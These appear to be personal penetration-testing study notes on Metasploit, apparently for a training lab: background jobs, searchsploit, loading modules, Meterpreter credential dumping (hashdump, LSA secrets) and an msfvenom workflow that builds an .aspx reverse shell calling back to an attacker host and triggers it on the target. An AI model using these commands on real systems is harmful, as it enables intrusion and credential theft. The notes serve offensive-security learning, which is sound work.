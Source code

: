 # Jobs
- If ran an active exploit under a specific port, cannot just terminate session with Ctrl + C
	- Need to use `jobs` to look at currently active tasks running in background
	- `jobs -h`
- Running exploit as a job
	- `exploit -j`
- List all running jobs
	- `jobs -l`
- Kill specific job
	- `kill [index no.]`

# More on Meterpreter
Dumping hashes and secrets
- `hashdump
- `lsa_dump_sam`
- `lsa_dump_secrets`

# Searching in exploit db
- Google search
- `searchsploit`
	- things written in Ruby (end in .`rb`) are most likely crafted specifically for use within msfconsole
- To run newly downloaded module (eg. off github or exploit-db)
	1. Place in `/usr/share/metasploit-framework/modules/exploits`
	2. Run `reload_all` in msfconsole

# Porting over scripts into Metasploit modules
KIV.

# Msfvenom
eg. 
- Found ftp server
- Logged in, see aspnet_client
	- So this box is able to run .aspx reverse shells!
- Generate a reverse shell
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
- Then just set a listener on msfconsole
	- `msfconsole
	- `use multi/handler`
	- `set LHOST 10.10.14.5`
	- `set LPORT 1337`
- Navigate to `http://10.10.10.5/reverse_shell.aspx


# Local exploit suggester
- `search local exploit suggester`

